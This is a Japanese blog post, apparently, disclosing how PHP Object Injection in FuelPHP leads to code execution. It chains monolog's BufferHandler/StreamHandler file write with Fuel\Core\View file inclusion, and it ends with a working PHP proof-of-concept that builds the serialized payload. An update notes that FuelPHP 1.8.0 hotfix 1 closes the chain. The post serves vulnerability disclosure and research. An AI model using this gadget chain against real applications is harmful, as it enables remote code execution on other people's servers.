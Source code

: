 # FuelPHP での PHP Object Injection について

※2016-06-04 追記
[Changelog v1.8.0 hotfix 1](https://github.com/fuel/core/wiki/Changelog-v1.8.0-hotfix-1)
こちらのアップデートにより、 FuelPHP で使用される monolog がバージョンアップされました。その結果以下に記載の方法は 1.8.0 hotfix 1 以上の FuelPHP に対しては有効ではなくなっています。

---

[PHPにおけるオブジェクトインジェクション脆弱性について](http://blog.a-way-out.net/blog/2014/07/22/php-object-injection/) の下記の部分について。

> 私の調べた範囲では、FuelPHP自体にはこの脆弱性により任意のコードを実行できるようなクラスはありませんでした（ただし、ファイルを削除することは可能でした。また、ユーザの作成したクラスに脆弱なものが存在する可能性もあります）。
>
> 次のCakePHPの事例のように複雑な組み合わせで攻撃できる可能性があるため、ちょっと見ただけで問題ないとは簡単には言えません。もし、FuelPHPのクラスで任意のコードを実行する方法を発見された方がいましたら、お教え願いたいです。


明記されたものが見つからなかったので備忘録代わりに書きます。

FuelPHP では [composer.json](https://github.com/fuel/fuel/blob/1.8/master/composer.json#L17) に記載があるとおり monolog ライブラリが使われています。
PHP Object Injection が存在する場合に monolog のクラスを利用して任意のコードを実行させる方法が既に公表されており、 [Laravel cookie forgery, decryption, and RCE](https://labs.mwrinfosecurity.com/blog/laravel-cookie-forgery-decryption-and-rce/) に記載があります。
ですので FuelPHP をインストールしたデフォルトの状態では、 PHP Object Injection があった場合に任意のコードが実行可能になっています。

[Practical PHP Object Injection](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf) p.45 にも記載があるとおりこの方法は Arbitrary Write なので、 PHP アプリケーションがドキュメントルート以下に対する書き込み権限を持たない場合はそのまま用いることができません。
ただ、 monolog のクラスと FuelPHP の `Fuel\Core\View` クラスを組み合わせることで Local File Inclusion が可能になるため、ドキュメントルート以下に書き込み権限がない場合であっても以下の手順で任意のコード実行が可能です。

1. Arbitrary Write で /tmp などの書き込み可能なディレクトリ以下に攻撃用スクリプトを書き出す
2. Local File Inclusion により 1.で書き出したファイルを include させて攻撃用スクリプトを実行させる


PoC はこのようになります。

```php
<?php

namespace Monolog\Handler {
class BufferHandler
{
    protected $buffer = [];
    protected $bufferSize = 0;
    protected $handler;

    public function __construct($handler)
    {
        $this->handler = $handler;
    }

    public function handle(array $record)
    {
        $this->buffer[] = $record;
        $this->bufferSize++;
    }
}

class StreamHandler
{
    protected $url;

    public function __construct($stream)
    {
        $this->url = $stream;
    }
}
}

namespace Fuel\Core {
class View
{
    protected $file_name;

    public function __construct($file)
    {
        $this->file_name = $file;
    }
}
}


namespace {
function main()
{
    $code = <<<'CODE'
<?php phpinfo(); exit; ?>
CODE;
    $targetFile = 'target-file.php';
    $arbitraryWrite = new Monolog\Handler\BufferHandler(
        new Monolog\Handler\StreamHandler($targetFile)
    );
    $arbitraryWrite->handle([
        'level' => 100, // Logger::DEBUG
        'message' => $code,
        'extra'  => [],
    ]);

    $view = new Fuel\Core\View($targetFile);
    $localFileInclusion = new Monolog\Handler\BufferHandler(
        new Monolog\Handler\StreamHandler($view)
    );
    $localFileInclusion->handle([
        'level' => 100, // Logger::DEBUG,
        'message' => 'foobar',
        'extra' => [],
    ]);

    echo bin2hex(serialize([$arbitraryWrite, $localFileInclusion]));
}

main();
}
```
